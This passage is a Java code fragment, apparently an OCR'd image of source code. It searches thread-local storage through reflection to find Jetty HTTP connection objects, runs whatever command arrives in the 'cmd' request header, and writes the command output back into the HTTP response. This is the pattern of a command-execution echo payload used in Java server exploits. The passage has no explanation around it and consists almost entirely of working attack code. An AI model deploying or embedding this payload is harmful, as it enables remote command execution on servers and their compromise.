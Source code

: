 ```java
        f.setAccessible(true);
        Thread[] threads = (Thread[]) f.get(group);
        thread : for (Thread thread: threads) {
            try{
                Field threadLocalsField = thread.getClass().getDeclaredField("threadLocals");
                threadLocalsField.setAccessible(true);
                Object threadLocals = threadLocalsField.get(thread);
                if (threadLocals == null){
                    continue;
                }
                Field tableField = threadLocals.getClass().getDeclaredField("table");
                tableField.setAccessible(true);
                Object tableValue = tableField.get(threadLocals);
                if (tableValue == null){
                    continue;
                }
                Object[] tables =  (Object[])tableValue;
                for (Object table:tables) {
                    if (table == null){
                        continue;
                    }
                    Field valueField = table.getClass().getDeclaredField("value");
                    valueField.setAccessible(true);
                    Object value = valueField.get(table);
                    if (value == null){
                        continue;
                    }
                    System.out.println(value.getClass().getName());
                    if(value.getClass().getName().endsWith("AsyncHttpConnection")){
                        Method method = value.getClass().getMethod("getRequest", null);
                        value = method.invoke(value, null);
                        method = value.getClass().getMethod("getHeader", new Class[]{String.class});
                        String cmd = (String)method.invoke(value, new Object[]{"cmd"});
                        String result = "\n"+exec(cmd);
                        method = value.getClass().getMethod("getPrintWriter", new Class[]{String.class});
                        java.io.PrintWriter printWriter = (java.io.PrintWriter)method.invoke(value, new Object[]{"utf-8"});
                        printWriter.println(result);
                        printWriter.flush();
                        break thread;
                    }else if(value.getClass().getName().endsWith("HttpConnection")){
                        Method method = value.getClass().getDeclaredMethod("getHttpChannel", null);
                        Object httpChannel = method.invoke(value, null);
                        method = httpChannel.getClass().getMethod("getRequest", null);
                        value = method.invoke(httpChannel, null);
                        method = value.getClass().getMethod("getHeader", new Class[]{String.class});
                        String cmd = (String)method.invoke(value, new Object[]{"cmd"});
                        String result = "\n"+exec(cmd);
                        method = httpChannel.getClass().getMethod("getResponse", null);
                        value = method.invoke(httpChannel, null);
                        method = value.getClass().getMethod("getWriter", null);
                        java.io.PrintWriter printWriter = (java.io.PrintWriter)method.invoke(value, null);
                        printWriter.println(result);
                        printWriter.flush();
                        break thread;
                    }else if (value.getClass().getName().endsWith("Channel")){
                        Field underlyingOutputField = value.getClass().getDeclaredField("underlyingOutput");
                        underlyingOutputField.setAccessible(true);
```